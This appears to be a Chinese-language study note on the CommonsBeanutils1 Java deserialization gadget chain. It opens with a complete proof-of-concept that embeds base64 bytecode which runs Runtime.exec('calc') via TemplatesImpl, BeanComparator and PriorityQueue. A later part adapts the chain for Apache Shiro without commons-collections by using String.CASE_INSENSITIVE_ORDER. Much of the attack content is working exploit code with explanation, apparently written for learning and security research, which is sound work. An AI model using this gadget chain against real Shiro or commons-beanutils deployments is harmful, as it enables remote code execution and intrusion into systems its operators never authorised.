


## POC

```java
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool; import org.apache.commons.beanutils.BeanComparator;
import org.jboss.util.Base64;

public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        byte[] code= Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes",
                new byte[][]{ code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator); // stub data for replacement later 
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue); oos.close(); System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

## 流程

Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对象（也称为JavaBean）的一些操作方法。

`org.apache.commons.beanutils.BeanComparator` 是commons-beanutils提供的用来比较两个JavaBean是否相等的类，其实现了`java.util.Comparator` 接口。我们看它的compare方法：


看一下这段代码,如果property为空,则直接比较两个参数,如果不为空,则调用PropertyUtils.getProperty()方法,这里涉及一些[JavaBean](https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680)的知识,PropertyUtils.getProperty 这个方法会自动去调用一个JavaBean的getter方法。

在TemplatesImpl链中从 TransletClassLoader#defineClass() 向前追溯一下调用链：

> TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> 
>
> TemplatesImpl#getTransletInstance() -> 
>
> TemplatesImpl#defineTransletClasses() -> 
>
> TransletClassLoader#defineClass() 

> 追到最前面两个方法 TemplatesImpl#getOutputProperties() 、 
>
> TemplatesImpl#newTransformer() ，这两者的作用域是public，可以被外部调用。我们尝试用
>
> newTransformer() 构造一个简单的POC...

看到这个 TemplatesImpl#getOutputProperties() 了吗？这个 getOutputProperties() 方法是调用

链上的一环，它的内部调用了 TemplatesImpl#newTransformer() 。这里我们令我们`org.apache.commons.beanutils.BeanComparator`中的property设置为OutputProperties,即可完成整条链子


这里的前面部分利用的是CC2,这里就直接贴CC2的图,后面改一下就行



# 无依赖版本

Shiro是依赖于commons-beanutils的,而不一定依赖于于commons-collections,这就是commons-beanutils1的好处,但是在实际情况中
commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽
然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于commons-collections，但反序列化利用的时候需要依赖于commons-collections。
(Shiro中自带的commons-beanutils是1.8.3,所以我们在构造链子的时候也要用一样的版本)

我们先来看看 org.apache.commons.collections.comparators.ComparableComparator 这个类在

哪里使用了：


在 BeanComparator 类的构造函数处，当没有显式传入 Comparator 的情况下，则默认使用

ComparableComparator



既然此时没有 ComparableComparator ，我们需要找到一个类来替换，它满足下面这几个条件：

- 实现 java.util.Comparator 接口
- 实现 java.io.Serializable 接口
- Java、shiro或commons-beanutils自带，且兼容性强

这里我们选择一个`java.lang.String`中的CaseInsensitiveComparator类


我们通过 String.CASE_INSENSITIVE_ORDER 即可拿到上下文中的 CaseInsensitiveComparator 对

象，用它来实例化 BeanComparator ：

```java
final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```

最后，构造出新的CommonsBeanutils1Shiro利用链：

```java
final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
        // stub data for replacement later

        queue.add(1);
        queue.add(2);
        setFieldValue(queue, "comparator", comparator);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
```

这里new PriorityQueue时也建议comparator先不传入,后面通过反射修改,因为在add时会触发我们的利用链:


